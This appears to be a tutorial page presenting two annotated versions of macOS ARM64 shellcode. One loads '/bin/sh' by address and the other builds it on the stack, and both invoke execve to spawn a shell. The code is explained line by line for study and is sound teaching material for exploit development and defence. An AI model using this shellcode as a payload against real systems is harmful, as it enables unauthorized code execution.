 Taken from [**here**](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/shell.s) and explained.

{% tabs %}
{% tab title="with adr" %}
```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:    
    adr  x0, sh_path  ; This is the address of "/bin/sh".
    mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
    mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.    
    mov  x16, #59     ; Move the execve syscall number (59) into x16.
    svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```
{% endtab %}

{% tab title="with stack" %}
```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
    ; We are going to build the string "/bin/sh" and place it on the stack.
    
    mov  x1, #0x622F  ; Move the lower half of "/bi" into x1. 0x62 = 'b', 0x2F = '/'.
    movk x1, #0x6E69, lsl #16 ; Move the next half of "/bin" into x1, shifted left by 16. 0x6E = 'n', 0x69 = 'i'.
    movk x1, #0x732F, lsl #32 ; Move the first half of "/sh" into x1, shifted left by 32. 0x73 = 's', 0x2F = '/'.
    movk x1, #0x68, lsl #48   ; Move the last part of "/sh" into x1, shifted left by 48. 0x68 = 'h'.

    str  x1, [sp, #-8] ; Store the value of x1 (the "/bin/sh" string) at the location `sp - 8`.

    ; Prepare arguments for the execve syscall.
    
    mov  x1, #8       ; Set x1 to 8.
    sub  x0, sp, x1   ; Subtract x1 (8) from the stack pointer (sp) and store the result in x0. This is the address of "/bin/sh" string on the stack.
    mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
    mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.

    ; Make the syscall.
    
    mov  x16, #59     ; Move the execve syscall number (59) into x16.
    svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

```
{% endtab %}
